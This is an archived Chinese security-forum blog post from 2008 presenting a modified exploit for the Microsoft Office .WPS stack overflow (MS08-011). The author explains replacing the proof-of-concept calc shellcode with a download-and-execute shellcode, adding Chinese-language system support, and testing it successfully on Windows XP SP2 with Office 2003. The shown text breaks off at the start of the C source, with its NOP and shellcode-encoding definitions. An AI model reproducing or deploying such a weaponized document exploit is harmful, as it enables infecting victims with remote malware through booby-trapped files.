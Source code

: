 ```yaml
---
title: Microsoft Office .WPS Exploit (MS08-011)mika修改加强版
description: 前两天就看到这个exp了，漏洞本身俺就不多说了，非常简单的栈溢出，exp都给了用od或者windbg跟一下就出来了，这里俺要非常感谢gyzy哥哥对俺的帮助，当俺一拿到exp的时候就非常庆幸，感觉会很容易修改（事实也是如此），于是俺就修改了ret地址，然后把俺原来用的shellcode（下载执行的）替换exp里执行calc的，但是没有成功，word一闪而过，也没报错也没下载。然后再看了看原exp的shellcode，发现是alpha2编码过的，于是俺想当然的以为俺的shellcode也得编码，可是编码发现还是不能运行而且出现错误了，俺单独把编码过的shellcode拿出来执行却能成功，百思不得其解不得不求助俺bf，他让俺自己去找人请教，俺只好上qq求助gyzy哥哥了，哥哥就是哥哥啊，说shellcode有问题于是给了俺一个lion牛牛写的那个经典的下载执行的shellcode，俺换上去一试果然就行了。痛苦啊！~~~在此向gyzy还有lion哥哥们致敬！
date: 2008-02-18 07:41:06
category: 漏洞信息
tags: ['exploit', 'Windows', '缓冲区溢出', '漏洞信息']
post_id: 373
alias: Microsoft-Office-.WPS-Exploit-MS08-011-mika
ViewNums: 3946
---
```


文章作者：mika
信息来源：邪恶八进制信息安全团队（www.eviloctal.com）

前两天就看到这个[exp](/tags/exploit)了，[漏洞](/tags/%E6%BC%8F%E6%B4%9E%E4%BF%A1%E6%81%AF)本身俺就不多说了，非常简单的栈[溢出](/tags/%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA)，exp都给了用od或者windbg跟一下就出来了，这里俺要非常感谢gyzy 哥哥对俺的帮助，当俺一拿到exp的时候就非常庆幸，感觉会很容易修改（事实也是如此），于是俺就修改了ret地址，然后把俺原来用的shellcode （下载执行的）替换exp里执行calc的，但是没有成功，word一闪而过，也没报错也没下载。然后再看了看原exp的shellcode，发现是 alpha2编码过的，于是俺想当然的以为俺的shellcode也得编码，可是编码发现还是不能运行而且出现错误了，俺单独把编码过的 shellcode拿出来执行却能成功，百思不得其解不得不求助俺bf，他让俺自己去找人请教，俺只好上qq求助gyzy哥哥了，哥哥就是哥哥啊，说 shellcode有问题于是给了俺一个lion牛牛写的那个经典的下载执行的shellcode，俺换上去一试果然就行了。痛苦啊！~~~在此向 gyzy还有lion哥哥们致敬！

关于这个漏洞的测试俺需要说明一下，漏洞是因为office在打开wps格式的文件进行转换时出现了漏洞，所以需要安装转换器。不过我在安装office 2003的时候默认是安装了转换器的。测试的时候先打开offie然后选择生成好的.wps文件即可（或者右键单击生成好的文件然后选择用winword打开）。
我添加了对简体中文和繁体中文系统的支持，在[windows](/tags/Windows) xp sp2+microsot office 2003 sp2上测试成功！

代码俺放在这里，非常简单：

#include <stdio.h>
#include <winsock2.h>
#include <windows.h>

#pragma comment(lib, "ws2_32")

#define NOPS "x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90"
// Use for find the ASM code
#define PROC_BEGIN __asm _emit 0x90 __asm _emit 0x90
 __asm _emit 0x90 __asm _emit 0x90
 __asm _emit 0x90 __asm _emit 0x90
 __asm _emit 0x90 __asm _emit 0x90
#define PROC_END PROC_BEGIN
#define SEARCH_STR "x90x90x90x90x90x90x90x90x90"
#define SEARCH_LEN 8
#define MAX_SC_LEN 2048
#define HASH_KEY 13

// Define Decode Parameter
#define DECODE_LEN 21
#define SC_LEN_OFFSET 7
#define ENC_KEY_OFFSET 11
#define ENC_KEY 0x99
